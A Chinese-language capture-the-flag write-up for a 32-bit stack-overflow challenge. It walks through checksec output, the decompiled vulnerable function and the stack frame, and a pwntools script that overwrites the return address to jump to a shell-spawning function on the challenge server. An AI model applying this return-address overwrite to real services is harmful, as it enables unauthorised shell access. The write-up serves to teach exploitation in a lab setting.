

# Overflow32

本题主要考察了基本的栈溢出

## 预处理

首先我们可以用一个小工具 `checksec` 查看二进制文件对应的**漏洞缓解机制**。
（该工具包含在python库 `pwntools` 里，也可以在 `github` 上下载项目安装）

```bash
checksec overflow3211
```

输出如下

```plain
[*] '/......./overflow3211'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

发现没有 `canary` （**栈溢出**保护）和 `PIE` （**地址随机化**保护）

## 逆向二进制文件

使用ida32打开 `overflow3211` 找到主要函数 `main` `vuln` `getshell` 的伪c代码如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  puts("overflow32");
  vuln(&argc);
  return 0;
}

char *vuln()
{
  char s[104]; // [esp+Ch] [ebp-6Ch] BYREF

  puts("Enter your message:");
  return fgets(s, 200, stdin);
}

int get_shell()
{
  puts("Wow, you found me!");
  return system("/bin/sh");
}
```

在 `vuln` 函数中，我们发现栈溢出的漏洞：缓冲区 `s` 只有104个字节，但 `fgets` 却向该处写入最大200字节的数据。我们只需要将 `vuln` 函数的返回地址改成 `get_shell` 即可得到目标的 `shell`

在ida中查看 `vuln` 函数的栈帧

```nasm
-00000078 ; D/A/*   : change type (data/ascii/array)
-00000078 ; N       : rename
-00000078 ; U       : undefine
-00000078 ; Use data definition commands to create local variables and function arguments.
-00000078 ; Two special fields " r" and " s" represent return address and saved registers.
-00000078 ; Frame size: 78; Saved regs: 4; Purge: 0
-00000078 ;
-00000078
-00000078                 db ? ; undefined
-00000077                 db ? ; undefined
-00000076                 db ? ; undefined
-00000075                 db ? ; undefined
-00000074                 db ? ; undefined
-00000073                 db ? ; undefined
-00000072                 db ? ; undefined
-00000071                 db ? ; undefined
-00000070                 db ? ; undefined
-0000006F                 db ? ; undefined
-0000006E                 db ? ; undefined
-0000006D                 db ? ; undefined
-0000006C s               db 104 dup(?)
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
+00000008
+00000008 ; end of stack variables
```

查看左侧相对于基址的偏移量，我们可以计算得需要填充 `0x6c+0x4` 个字节，即 `112` 个字节，再填入 `get_shell` 的地址（在ida中寻找） `0x080491F6` 即可。


根据题目给到的ip和端口，有脚本如下

```python
from pwn import *

conn=connect("58.87.70.227",10009)
payload=b"a"*112+p32(0x080491F6)

conn.recvline()
conn.recvline()
conn.sendline(payload)
conn.interactive()
```

`payload` 即为构造的输入

在Linux中运行脚本，随后得到`flag`（**注意这里的`flag`是变动的**）

